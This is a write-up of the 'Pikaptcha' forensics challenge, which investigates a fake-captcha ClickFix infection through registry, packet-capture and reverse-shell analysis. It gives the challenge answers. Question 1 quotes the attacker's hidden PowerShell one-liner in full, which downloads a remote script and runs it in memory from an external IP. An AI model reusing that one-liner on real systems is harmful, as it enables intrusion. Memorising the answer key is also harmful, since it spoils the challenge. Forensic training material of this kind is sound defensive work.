







# Pikaptcha

## Sherlock scenario

Happy Grunwald contacted the sysadmin, Alonzo, to notify him that he tried downloading the latest version of microsoft office from an update mail he received. He told that he visited the website and solved a captcha but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an intrusion.You are provided with network traffic and endpoint artifacts to answer few of concerning questions.

## Given artifact

A packet capture file and the C's drive of compromised machine, but only some hives

## Questions

### 1. It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

From the name `Pikaptcha`, we can be quite sure that it's the clickfix malware. A fake dialog asking user to copy something and paste to Run (Windows + R) to execute. That can only work for non-technical users for sure.

Given the command is executed through Windows + R, we will inspect `RunMRU` key in `NTUSER.dat` hive, located in `Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`

**Answer: `powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`**

### 2. At what time in UTC did the malicious payload execute?

Can be seen in previous snapshot

**Answer: 2024-09-23 05:07:45**

### 3. The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

Looking at the powershell command, we now know how to filter the massive pcap file:

Export it and take the hash

**Answer: 579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE**

### 4. To which port did the reverse shell connect?

The command is encoded, I take it to cyberchef:

It creates a reverse shell to the attacker's IP. Here is the executed commands:

**Answer: 6969**

### 5. For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

Filter for the TCP stream that connects to port 6969, then take the difference in timestamp:

**Answer: 403**

### 6. Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

Follow the initial HTTP stream to the attacker's IP, we can see the source of that page:

**Answer: stageClipboard**
